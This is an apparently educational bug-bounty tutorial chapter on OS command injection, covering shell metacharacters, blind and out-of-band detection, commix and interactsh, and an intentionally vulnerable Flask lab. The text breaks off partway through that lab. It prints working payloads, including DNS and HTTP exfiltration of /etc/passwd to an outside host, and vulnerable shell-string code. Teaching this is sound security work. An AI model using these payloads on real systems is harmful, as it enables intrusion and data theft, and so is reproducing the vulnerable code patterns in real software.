







**Level:** Expert · **Track:** Bug Bounty & AppSec · **Read time:** 255 min

This is Chapter 4 of the Injection notebook — Notebook 23. The first three chapters lived
inside the database: you learned what SQL is, how to discover an injection point, how to
exploit it in-band and blind, and how to defeat WAFs and drive `sqlmap`. This chapter changes
the interpreter. Instead of your input reaching a *SQL query*, it reaches an *operating-system
shell* — and when a shell interprets attacker-controlled text, the result is arbitrary command
execution on the server. That is usually the highest-severity finding a web tester can report,
because it hands you the machine itself rather than just its data.

The good news for you as a learner: almost every instinct you built in the SQLi chapters —
"where does my input land, what interpreter parses it, what characters are special to that
interpreter, and how do I confirm execution without breaking anything" — carries over directly.
The interpreter is different (a shell, not a SQL engine), so the metacharacters and the
confirmation tricks change, but the *method* is the same. We will build this from the absolute
mechanics of how a process is created up to expert-grade blind and out-of-band exploitation,
filter bypasses, and a real detection-and-defense model.

Everything here assumes **explicit written authorisation** and **in-scope targets only**. OS
command injection is remote code execution; running these payloads against systems you do not
own or are not contracted to test is a crime in essentially every jurisdiction. Prove impact
with the lightest possible touch (an `id`, a DNS callback, a benign marker file) and stop.

---

## Part 1: What OS Command Injection Actually Is

**OS command injection** (sometimes "command injection" or "shell injection", and mapped to
**CWE-78: Improper Neutralization of Special Elements used in an OS Command**) occurs when an
application builds an operating-system command out of data it received from an untrusted source
and then hands that command to a shell for execution, without correctly separating *code* from
*data*.

The canonical shape looks like this. A web app offers a "ping this host" feature:

```php
<?php
// VULNERABLE: user input concatenated into a shell command string
$host = $_GET['host'];
$output = shell_exec("ping -c 4 " . $host);
echo "<pre>$output</pre>";
?>
```

A normal request is `?host=8.8.8.8`, and the server runs `ping -c 4 8.8.8.8`. But the value of
`host` is attacker-controlled text that is spliced *into a string that a shell will parse*. A
shell does not just see "an argument to ping" — it sees a whole command line, with all of its
own special syntax active. So the attacker sends:

```text
?host=8.8.8.8;id
```

and the server executes, effectively:

```bash
ping -c 4 8.8.8.8;id
```

The `;` is a **command separator** to the shell. It ends the `ping` command and starts a second,
entirely separate command — `id` — running with the privileges of the web process. The response
now contains the output of `id`:

```text
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=115 time=11.3 ms
...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

That last line is the proof: you ran a command you chose, as the server's user. From here the
same primitive escalates to reading files (`cat /etc/passwd`), reaching internal services,
writing a webshell, or opening a reverse shell for interactive access.

The root cause is identical to SQLi in structure: **a single string is asked to carry both the
trusted program and the untrusted data, and the interpreter (here, the shell) has no way to know
which bytes the developer meant as literal data.** Fix the confusion of code and data and the
bug disappears — which is exactly why the defense (Part 14) centers on *never letting user data
be parsed as shell syntax*.

**Why this sits at the top of severity charts.** SQLi typically yields data; XSS yields
victim-browser control; SSRF yields internal reach. Command injection typically yields *the
server's own execution context* — and from there, everything else: lateral movement, credential
theft from disk and memory, pivoting into the internal network, and persistence. On a bug-bounty
program, a clean command-injection proof is almost always a top-tier payout; in a pentest it is
usually the finding that reframes the whole engagement.

---

## Part 2: How a Program Runs a Command — the Mechanic That Makes the Bug Possible

You cannot reason about command injection (or its defense) without understanding *how* code
launches other programs. There are two fundamentally different paths, and the vulnerability
lives almost entirely in one of them.

### 2.1 The shell as an interpreter

When you type `ping -c 4 8.8.8.8` into a terminal, you are not talking to `ping` directly. You
are talking to a **shell** (`/bin/sh`, `bash`, `dash`, `zsh`, PowerShell/`cmd.exe` on Windows).
The shell is a full programming-language interpreter whose job is to parse a *command line* and
then execute it. Before it ever runs `ping`, the shell performs a documented sequence of
expansions and interpretations on the string, including:

- **Tokenisation / word splitting** — splitting on whitespace (controlled by the `IFS` variable).
- **Metacharacter interpretation** — `; | & && || ( ) < > ` and newlines have structural meaning.
- **Quote removal** — handling `'...'`, `"..."`, and `\` escapes.
- **Expansions** — variable (`$VAR`), command substitution (`` `cmd` `` and `$(cmd)`), arithmetic
  (`$((...))`), brace (`{a,b}`), tilde (`~`), and pathname/glob (`*`, `?`, `[...]`).

Every one of those is a lever an attacker can pull *if their bytes reach a shell*. The entire
offense in this chapter is "which shell feature do I abuse, and how do I smuggle it past a
filter."

### 2.2 Two ways to spawn a process



**Path 1 — via a shell (dangerous).** APIs like C's `system(3)`, PHP's `system()`/`shell_exec()`/
`exec()`/`` `backticks` ``, Python's `os.system()` and `subprocess.*` with `shell=True`, Ruby's
`` `backticks` ``/`system("string")`, Node's `child_process.exec()`, and Java's
`Runtime.getRuntime().exec(String)` (when the string is later shell-parsed, or explicitly wrapped
in `sh -c`) all take a **single command string** and hand it to a shell. The shell then does all
of the parsing in 2.1 on the *whole* string — including the attacker's bytes.

**Path 2 — direct execution / argv array (safe from *this* class).** APIs like the raw
`execve(2)`/`posix_spawn`, Python's `subprocess.run(["ping","-c","4",host])` (no `shell=True`),
Node's `child_process.execFile("ping",["-c","4",host])`, Ruby's `system("ping","-c","4",host)`
(multi-arg form), and Java's `ProcessBuilder(List<String>)` pass the program and its arguments as
a **pre-split array**. There is no shell to interpret metacharacters, so `host = "8.8.8.8;id"`
becomes a single, literal argument to `ping` — which simply fails to resolve it as a hostname.
No second command runs.

Internalise this distinction: **command injection is, almost always, "a shell got involved when
it didn't need to."** Detection, exploitation, and defense all revolve around it. (Path 2 is not
perfectly safe — see **Part 13: Argument Injection** — but it removes the classic RCE-via-
metacharacter primitive entirely.)

### 2.3 What "the shell" is on each platform

| Platform | Typical shell invoked | Key separators/notes |
|---|---|---|
| Linux/Unix `system()` family | `/bin/sh` (often `dash`) | `;` `|` `&` `&&` `||` `$( )` `` ` `` newline |
| Linux with explicit bash | `/bin/bash` | adds `{a,b}` brace expansion, `<<<`, process substitution `<( )` |
| Windows `cmd.exe` | `cmd /c "..."` | `&` `&&` `||` `|` `%VAR%` — **not** `;`, and quoting differs |
| Windows PowerShell | `powershell -c "..."` | `;` `|` `$( )` `&`, very different quoting/escaping |

A huge number of "it didn't work" moments come from sending Linux syntax to a Windows target or
vice versa. Fingerprint the platform first (Part 6) and pick separators accordingly.

---

## Part 3: The Shell Metacharacter Arsenal

These are the building blocks. Learn the *semantics*, not just the symbols, because filter
bypass (Part 11) is entirely about substituting one shell semantic for another.

### 3.1 Command separators and chaining

| Operator | Name | Behaviour | Example (`$INPUT` = the field) |
|---|---|---|---|
| `;` | sequencer | run left, then run right unconditionally | `ping x; id` |
| `\n` (`%0a`) | newline | acts like `;` — new command on a new line | `ping x%0aid` |
| `&&` | AND | run right **only if** left succeeds (exit 0) | `ping x && id` |
| `\|\|` | OR | run right **only if** left fails (non-zero) | `ping bad\|\|id` |
| `&` | background | run left in background, run right now | `ping x & id` |
| `\|` | pipe | send left's stdout into right's stdin | `x\|id` |
| `` `cmd` `` | backtick substitution | run `cmd`, splice its output inline | `` ping `id` `` |
| `$(cmd)` | `$()` substitution | modern command substitution (nestable) | `ping $(id)` |
| `{ }` / `( )` | grouping / subshell | group commands | `ping x;(id)` |

Two practical notes that trip people up:

- If your input is appended *after* a valid argument, `;`, `&&`, `|`, and newline all work. If
  your input is the *whole* command or a filename that must still parse, command substitution
  (`$( )` / backticks) is often cleaner because it doesn't require the left side to be valid.
- `||` is the separator of choice when the *original* command is likely to **fail** (e.g. you
  passed garbage where a hostname was expected): `nonexistent||id` runs `id` precisely because
  the first half errored.

### 3.2 Quoting, escaping, and context breakout

Your input often lands *inside* quotes in the server-side string. You must break out of that
quoting context first, exactly like escaping a string literal in SQLi.

```bash
# Server builds:  sh -c "convert 'USERINPUT.jpg' out.png"
# Inside single quotes: close the quote, inject, re-open (or comment out the rest)
USERINPUT = x';id;'          ->  convert 'x';id;'.jpg' out.png
USERINPUT = x'$(id)'         ->  convert 'x'$(id)'.jpg' out.png
```

| Context you land in | Breakout technique |
|---|---|
| Unquoted argument | inject directly: `; id`, `\| id`, `$(id)` |
| Inside `'single quotes'` | `'` closes them, then inject, then handle the trailing quote |
| Inside `"double quotes"` | `"` closes; note `$`, `` ` ``, `\` are still active *inside* doubles, so `"$(id)"` often executes without even breaking out |
| Inside backticks already | nest with `$( )` |

A subtle and powerful fact: **inside double quotes, `$( )` and backticks still evaluate.** So a
value that lands in `"..."` may be injectable with `$(id)` and *no quote-breaking at all*.

### 3.3 Redirection and file primitives

```bash
> file      # write stdout to file (webshell drop)
>> file     # append
< file      # read file as stdin
2>&1        # merge stderr into stdout (surface errors into the response)
```

`2>&1` is your single most useful "make blind less blind" trick: appending it forces error text
into the same stream you can see, which frequently reveals paths, permission errors, and whether
your command even ran.

---

## Part 4: A Detection & Exploitation Methodology

Approach every candidate parameter with the same disciplined loop rather than blindly firing
payloads. This is the same "map → probe → confirm → exploit → prove impact minimally" rhythm
from the SQLi chapters.



### 4.1 Where does user input plausibly reach a shell?

Command injection clusters around features that *are* really wrappers over OS tools:

- **Network utilities:** ping, traceroute, nslookup/dig, whois, curl/wget fetchers, "test
  connection" buttons.
- **File/media processing:** image resizing/conversion (ImageMagick, Ghostscript, ffmpeg),
  PDF generation (wkhtmltopdf), archive extraction (`unzip`, `tar`), OCR, antivirus scans.
- **System/admin panels:** backup/restore, log download, "run diagnostics", certificate
  generation (openssl), user management, cron editors, firewall rule editors.
- **Dev/CI features:** git operations, build hooks, template renderers that shell out.
- **Anything with a filename, hostname, URL, email, or "command"/"options" field** that ends up
  in a subprocess.

**Bug-bounty angle:** the fastest wins are "operational" endpoints — network diagnostics on
routers/firewalls/IoT admin panels, and file-upload/processing pipelines — which are historically
riddled with this class and are common on appliance and SOHO-device programs.

### 4.2 Baseline first

Send a known-good value and record: status code, response length, response time, and any command
output echoed back. Every later probe is measured *against this baseline*. Without a baseline you
cannot tell a 5-second delay from a slow app or a length change from noise.

---

## Part 5: In-Band Detection — When You Can See Output

"In-band" (a.k.a. results-based) means the command's output is reflected somewhere you can read —
the HTTP response body, an error message, a generated file, an email. This is the easiest case.

### 5.1 Separator probes

Try each separator, because the injection context determines which works:

```text
8.8.8.8; id
8.8.8.8 | id
8.8.8.8 & id
8.8.8.8 && id
bad || id
8.8.8.8 %0a id            (URL-encoded newline)
8.8.8.8 `id`
8.8.8.8 $(id)
```

Confirmation is an unmistakable string in the response, e.g. `uid=…gid=…`. Prefer commands whose
output is impossible to produce by accident:

```bash
id            # uid=…  — best single confirmation
whoami        # the running user
uname -a      # OS/kernel — also fingerprints the platform
hostname
echo CIT-$((13*17))-INJ    # -> CIT-221-INJ : a unique arithmetic marker you can grep for
```

That last one is gold for automated/parameter-sweep testing: `$((13*17))` only equals `221` if a
shell evaluated the arithmetic, so seeing `CIT-221-INJ` in a response is near-zero-false-positive
proof — and it's completely benign.

### 5.2 Windows equivalents

```text
8.8.8.8 & whoami
8.8.8.8 && ver
8.8.8.8 | whoami
```

`whoami`, `ver`, `hostname`, and `set` (env dump) are the Windows analogues. PowerShell targets
also honour `;` and `$(...)`.

### 5.3 Surfacing hidden output

If the app runs your command but discards stdout, force it into view:

```text
8.8.8.8; id 2>&1
8.8.8.8; id > /var/www/html/o.txt   # then GET /o.txt
```

---

## Part 6: Fingerprinting the Target Environment

Once you have *any* execution, spend one or two commands learning where you are — it changes every
subsequent payload.



| Question | Linux probe | Windows probe |
|---|---|---|
| Who am I? | `id` | `whoami /all` |
| OS/kernel | `uname -a`, `cat /etc/os-release` | `ver`, `systeminfo` |
| Which shell? | `echo $0`, `ls -l /bin/sh` | n/a (cmd vs pwsh) |
| Egress tools present? | `which curl wget nc python3` | `where curl powershell` |
| Network reach | `curl -m3 http://OOB/`, `nslookup x.OOB` | `nslookup x.OOB` |
| Privileges | `sudo -n -l`, `id` | `whoami /priv` |

`echo $0` telling you `sh`/`dash` vs `bash` matters: brace expansion `{a,b}` and `<(...)` are
bash-only, so a dash target will silently ignore them and your "clever" payload fails for a
reason that has nothing to do with the filter.

---

## Part 7: Blind Command Injection — Time-Based Inference

Most real-world command injection is **blind**: the command runs but its output never reaches you.
You infer execution the same way you did with blind SQLi — by making the server's *behaviour*
depend on your command.

### 7.1 The `sleep` oracle

```text
8.8.8.8; sleep 10
8.8.8.8 && sleep 10
bad || sleep 10
8.8.8.8 $(sleep 10)
8.8.8.8 `sleep 10`
8.8.8.8 %0a sleep 10
```

If the response reliably takes ~10s longer than baseline, and a control of `sleep 0` (or no
payload) returns fast, you have execution. Always test *two* delays (e.g. 5s and 10s) so you can
tell a real dependency from a coincidentally slow endpoint — the response time should track your
number.

**Windows delays:**

```text
& ping -n 11 127.0.0.1     ::  ~10s (ping sends N-1 gaps of ~1s)
& timeout /t 10
& powershell -c "Start-Sleep 10"
```

`ping -c`/`ping -n` as a timer is the classic portable delay when `sleep`/`timeout` are filtered
or absent (`ping -c 11 127.0.0.1` on Linux ≈ 10s).

### 7.2 Turning the oracle into a boolean

You can extract data one bit at a time by making the delay *conditional*, exactly like blind SQLi:

```bash
# "If the first char of the current user is 'r', sleep 5"
bad || if [ "$(whoami | cut -c1)" = "r" ]; then sleep 5; fi
```

Practical, but slow and noisy. In practice, once time-based confirms execution, you almost always
pivot to out-of-band exfiltration (Part 8) or straight to a shell — bit-by-bit timing extraction
is a last resort when egress is fully blocked.

---

## Part 8: Out-of-Band (OOB / OAST) Detection and Exfiltration

The most reliable modern technique for blind command injection is **out-of-band application
security testing (OAST)**: make the target initiate a network connection *to infrastructure you
control*, most commonly via DNS. DNS is ideal because outbound DNS resolution is allowed on
almost every network even when raw HTTP egress is firewalled.



### 8.1 Confirming execution via a callback

```bash
# Linux — any of these force a DNS lookup / HTTP hit to your listener:
; nslookup uniq1.oob.example
; curl http://uniq1.oob.example/
; wget -q -O- http://uniq1.oob.example/
; ping -c1 uniq1.oob.example
```

```powershell
# Windows
& nslookup uniq1.oob.example
& powershell -c "Invoke-WebRequest http://uniq1.oob.example/"
```

If your listener records a DNS query or HTTP request for `uniq1`, execution is proven — no visible
output required. Tie a **unique subdomain per parameter/payload** so you know exactly which input
fired.

### 8.2 Exfiltrating data over DNS

Put command output *into the hostname* you look up, so the data arrives at your DNS server:

```bash
# Exfil the current user via a DNS label
; nslookup $(whoami).oob.example
# -> your DNS log shows a query for e.g. www-data.oob.example

# Exfil a file, hex-encoded, chunked so each label stays <63 bytes
; for c in $(cat /etc/passwd | xxd -p | fold -w60); do nslookup $c.oob.example; done
```

Over HTTP if egress allows it:

```bash
; curl http://oob.example/?d=$(id | base64 -w0)
; curl -X POST --data-binary @/etc/passwd http://oob.example/f
```

**Blue-team note (used later in Part 14):** these callbacks are also exactly what defenders hunt —
a `www-data`/`IIS APPPOOL` process making outbound DNS/HTTP to a random external domain is a
high-fidelity RCE indicator.

---

## Part 9: Tooling From Zero

Per the tool-from-scratch rule, here is each tool you'll use in the lab, taught before we use it.

### 9.1 Burp Suite (recap + command-injection workflow)

Burp Suite (taught in full in the Web Tooling notebook) is an intercepting HTTP proxy. For this
class you use it to (a) capture the exact request, (b) send it to **Repeater** to hand-craft and
iterate payloads one at a time while watching response length/time, and (c) use **Intruder** to
sweep a payload list across a parameter. Burp's **Collaborator** is a built-in OAST server: click
"Copy to clipboard" for a unique `*.oastify.com` domain, drop it into `nslookup`/`curl` payloads,
and poll the Collaborator tab for DNS/HTTP interactions — the fastest way to confirm blind RCE
without standing up your own DNS.

Core loop:

1. Proxy the app, find the request, send to Repeater (`Ctrl+R`).
2. Set the response view to show **Time** and **Length** columns.
3. Iterate separators/payloads; watch for output, length change, or delay.
4. For blind, paste a Collaborator domain into a callback payload and check the tab.

### 9.2 interactsh (open-source OAST)

`interactsh-client` (ProjectDiscovery) is a free, self-serviceable alternative to Collaborator. It
gives you a unique domain and prints DNS/HTTP/SMTP interactions to your terminal.

```bash
# Install (Go) and run
go install github.com/projectdiscovery/interactsh/cmd/interactsh-client@latest
interactsh-client -v
# It prints a domain like c7abc123....oast.fun — use that in your payloads.
# Any callback appears live:
# [c7abc123.oast.fun] Received DNS interaction from 203.0.113.10
```

### 9.3 commix (automated command-injection exploiter)

**commix** ("COMMand Injection eXploiter") is to command injection what sqlmap is to SQLi: it
automates detection (in-band, time-based, and file-based/OOB techniques), payload generation,
tamper-style bypasses, and post-exploitation (pseudo-shell, file read/write, even Meterpreter).

```bash
# Kali: usually preinstalled; else
sudo apt install commix        # or: git clone https://github.com/commixproject/commix
commix --help | head -n 40
```

Key flags:

| Flag | Purpose |
|---|---|
| `-u "URL"` | target URL (mark injection point with `INJECT_HERE` or let it find params) |
| `--data="..."` | POST body to test |
| `-r req.txt` | use a saved raw HTTP request (from Burp) — best for auth/headers |
| `-p PARAM` | test a specific parameter |
| `--level=1..3` | how aggressively to test (headers, etc.) |
| `--technique=` | `c`lassic, `e`val-based, `t`ime-based, `f`ile-based |
| `--os-cmd="id"` | run a single command and print output |
| `--os-shell` | drop into an interactive pseudo-shell |
| `--tamper=` | obfuscation scripts (e.g. `space2ifs`, `randomcase`) |
| `--technique=t --time-sec=` | tune the time-based delay threshold |
| `--proxy=http://127.0.0.1:8080` | route through Burp to see what it sends |

As with sqlmap, run commix through Burp at least once so you understand the payloads it emits
rather than treating it as a black box — and never point it at anything out of scope.

### 9.4 Parameter discovery

Injectable parameters aren't always visible. Tools like `arjun` (parameter discovery) and content
discovery with `ffuf`/`feroxbuster` (covered in the Web Tooling notebook) surface hidden params
and admin/diagnostic endpoints that are prime command-injection candidates.

```bash
arjun -u https://target.example/api/diag        # find hidden params
ffuf -u https://target.example/FUZZ -w routes.txt   # find diag/admin endpoints
```

---

## Part 10: Hands-On Lab — From Blind Ping to Reverse Shell

A complete, reproducible worked example. Set this up in **your own** lab (a local Docker container
or DVWA); the target below is a deliberately vulnerable "network tools" endpoint.

### 10.1 The vulnerable app

```python
# app.py  (Flask) — intentionally vulnerable, for a local lab ONLY
from flask import Flask, request
import subprocess
app = Flask(__name__)

@app.route("/ping")
def ping():
    host = request.args.get("host", "")
    # VULNERABLE: shell=True with concatenated user input
    out = subprocess.run(f"ping -c 2 {host}", shell=True,
                         capture_output=True, text=True, timeout=15)
    return f"<pre>{out.stdout}\n{out.stderr}</pre>"

if __name__ == "__main__":
    app.run(host="127.0.0.1", port=5000)
```

```bash
pip install flask
python3 app.py
```

### 10.2 Step 1 — baseline

```bash
curl -s "http://127.0.0.1:5000/ping?host=127.0.0.1"
```

```text
<pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.041 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.055 ms
...
</pre>
```

Normal, fast, ~0.1s. Baseline captured.

### 10.3 Step 2 — in-band probe

```bash
curl -s "http://127.0.0.1:5000/ping?host=127.0.0.1;id"
```

```text
<pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.041 ms
...
uid=1000(labuser) gid=1000(labuser) groups=1000(labuser)
</pre>
```

The `uid=…` line confirms execution. (URL-encode `;` as `%3B` if a proxy mangles it:
`?host=127.0.0.1%3Bid`.)

### 10.4 Step 3 — confirm blind path too (for realism)

Suppose output were suppressed. Time-based:

```bash
time curl -s "http://127.0.0.1:5000/ping?host=127.0.0.1;sleep%205" >/dev/null
```

```text
real    0m5.089s
```

~5s longer than baseline → execution confirmed blind.

OOB (start interactsh, then):

```bash
curl -s "http://127.0.0.1:5000/ping?host=127.0.0.1;nslookup%20lab1.<yourid>.oast.fun"
# interactsh terminal:
# [<yourid>.oast.fun] Received DNS interaction (A) from 127.0.0.1 for lab1.<yourid>.oast.fun
```

### 10.5 Step 4 — fingerprint

```bash
curl -s "http://127.0.0.1:5000/ping?host=x;uname%20-a;which%20nc%20python3%20bash"
```

```text
Linux lab 6.1.0-kali ... x86_64 GNU/Linux
